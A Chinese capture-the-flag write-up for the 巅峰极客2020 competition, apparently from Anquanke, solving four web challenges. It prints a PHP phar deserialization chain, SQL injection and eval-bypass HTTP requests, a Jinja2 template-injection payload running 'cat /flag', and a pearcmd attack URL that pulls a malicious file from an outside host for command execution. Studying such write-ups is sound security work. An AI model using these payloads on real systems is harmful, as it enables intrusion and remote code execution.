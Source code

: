 # 巅峰极客2020

**文章首发于[安全客](https://www.anquanke.com/post/id/218977)**

## babyphp2

文件包含：http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/index.php?action=../../../../../../../../../../../var/www/html/login
登入接口ban掉：
```
`,\,@,%,#
```
```
[11:00:52] 200 -   68B  - /index.php
[11:00:53] 200 -   68B  - /index.php/login/
[11:01:33] 200 -  583B  - /login.php
[11:03:57] 403 -  335B  - /server-status
[11:04:19] 403 -  336B  - /server-status/
[11:05:21] 200 -  422B  - /upload.php
[11:05:22] 403 -  329B  - /upload/
[11:05:41] 301 -  383B  - /upload  ->  http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/upload/
[11:06:20] 200 -    4KB - /www.zip
```

构造反序列化链：`dbCtrl::__destruct->User::__toString->Reader::__set`

```php
<?php

Class Reader{
    public $filename;
    public $result;
    public function __construct(){

    }

}

class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public $backup;
    public function __construct(){
        $this->backup="/flag";
        $this->nickname=new Reader();
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="p3rh4ps";
    public $dbpass="p3rh4ps";
    public $database="p3rh4ps";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct(){
        $this->token=new User();
    }
}

$a = new dbCtrl();
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub,只要后面部分为__HALT_COMPILER(); 
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```


compress.zlib://phar://phar.phar/test.txt绕过限制



##  babyback

php:5.6.40



robots.txt



```
User-agent: *
Disallow: /admin
```

```
[12:31:50] 200 -   38B  - /admin/
[12:31:50] 200 -   38B  - /admin/?/login
[12:31:50] 200 -   38B  - /admin/index.php
[12:31:57] 200 -   48B  - /check.php
[12:32:13] 200 -   33B  - /robots.txt
[12:41:07] 200 -   29B  - /admin/.bowerrc
[12:41:26] 301 -  185B  - /admin/assets  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/assets/
[12:41:28] 200 -    1KB - /admin/bower.json
[12:41:38] 301 -  185B  - /admin/images  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/images/
[12:41:39] 200 -   38B  - /admin/index.php
[12:41:57] 200 -  620B  - /admin/package.json
```
check.php 过滤了： `",',-,=,;,select`

`username=aaaa\&password= /sleep(5)%23bbbb`存在sql注入

```
账号密码
admin
uAreRigHt
```
>代码不能包含打开/关闭 PHP tags。比如， 'echo "Hi!";' 不能这样传入： '<?php echo "Hi!"; ?>'。但仍然可以用合适的 PHP tag 来离开、重新进入 PHP 模式。比如 'echo "In PHP mode!"; ?>In HTML mode!<?php echo "Back in PHP mode!";'。 

```
EVAL($COMMAND."=FALSE");
过滤：;,",', ,|,`,^,\,;,/,*,(,),&,$,#,f,F
```

任意文件包含：
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrD05yt5m
Content-Length: 161

------WebKitFormBoundaryrD05yt5m
Content-Disposition: form-data; name="command"

?><?=include<<<DDDD
.bowerrc
DDDD
?>
------WebKitFormBoundaryrD05yt5m--

```

读取flag
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

command=%3f%3e%3c%3f%3dinclude%7e%3c%3c%3cDDDD%0d%0a%D0%99%93%9E%98%0d%0aDDDD%0d%0a%3f%3e
```

## babyflask

GET /loged?name=%7B%7B2*2%7D%7D
存在SSTI
模板引擎jinja2


```http://eci-2ze3domag0jprtzax0lx.cloudeci1.ichunqiu.com:8888/loged?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}{%%20if%20c.__name__==%27_IterationGuard%27%20%}{{%20c.__init__.__globals__[%27__builtins__%27][%27eval%27](%22__import__(%27os%27).popen(%27cat%20/flag%27).read()%22)%20}}{%%20endif%20%}{%%20endfor%20%}```

拿flag



## MeowWorld

任意文件读取

hint:register_argc_argv

```
register_argc_argv	TRUE	
由于该设置为 TRUE，将总是可以在 CLI SAPI 中访问到 argc（传送给应用程序参数的个数）和 argv（包含有实际参数的数组）。

对于 PHP 4.3.0，在使用 CLI SAPI 时，PHP 变量 $argc 和 $argv 已被注册并且设定了对应的值。而在这之前的版本，这两个变量在 CGI 或者 模块 版本中的建立依赖于将 PHP 的设置选项 register_globals 设为 on。除了版本和 register_globals 设定以外，可以随时通过调用 $_SERVER 或者 $HTTP_SERVER_VARS 来访问它们。例如：$_SERVER['argv']
```



https://khack40.info/camp-ctf-2015-trolol-web-write-up/

找到一个类似的题目，但是他们是用变量覆盖来执行

阅读pearcmd的代码发现：`if (!isset($_SERVER['argv']) && !isset($argv) && !isset($HTTP_SERVER_VARS['argv']))`

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200926190107.png)

```
http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?list+install+--installroot+/tmp/+http://ccreater.top:60006/install.php++++++++++++++$&f=pearcmd&
```

后面多余部分并不影响我们下载恶意文件





`http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?f=/tmp/tmp/pear/download/install`

任意命令执行